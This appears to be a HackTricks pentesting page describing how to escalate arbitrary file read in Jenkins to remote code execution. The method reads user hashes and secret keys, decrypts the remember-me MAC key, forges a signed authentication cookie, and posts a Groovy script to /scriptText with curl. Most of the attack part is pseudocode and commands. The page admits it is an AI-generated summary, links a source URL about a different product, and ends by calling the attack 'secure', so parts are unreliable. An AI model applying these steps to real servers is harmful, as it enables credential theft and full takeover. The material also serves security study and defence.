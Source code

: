# Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" must be enabled (default setting).
* **Access Levels:** Attacker needs Overall/Read permissions.
* **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  * **Username**
  * **User seed**
  * **Timestamp**
  * **Password hash**

**Secret Key Extraction**

* Extract cryptographic keys used for signing the cookie:
  * **Secret Key:** `$JENKINS_HOME/secret.key`
  * **Master Key:** `$JENKINS_HOME/secrets/master.key`
  * **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

    {% code overflow="wrap" %}
    ```javascript
    tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
    ```
    {% endcode %}
*   **Concatenate Data for Token:**

    {% code overflow="wrap" %}
    ```javascript
    token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
    ```
    {% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

    ```javascript
    key = toAes128Key(masterKey)  // Convert master key to AES128 key format
    decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
    if not decrypted.hasSuffix("::::MAGIC::::")
        return ERROR;
    macKey = decrypted.withoutSuffix("::::MAGIC::::")
    ```

**Signature Computation**

*   **Compute HMAC SHA256:**

    ```javascript
    mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
    tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
    ```

**Cookie Encoding**

*   **Generate Final Cookie:**

    {% code overflow="wrap" %}
    ```javascript
    cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
    ```
    {% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
  * Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  * Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

    ```bash
    curl -X POST "$JENKINS_URL/scriptText" \
    --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
    --header "Jenkins-Crumb: $CRUMB" \
    --header "Content-Type: application/x-www-form-urlencoded" \
    --data-urlencode "script=$SCRIPT"
    ```

    * Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

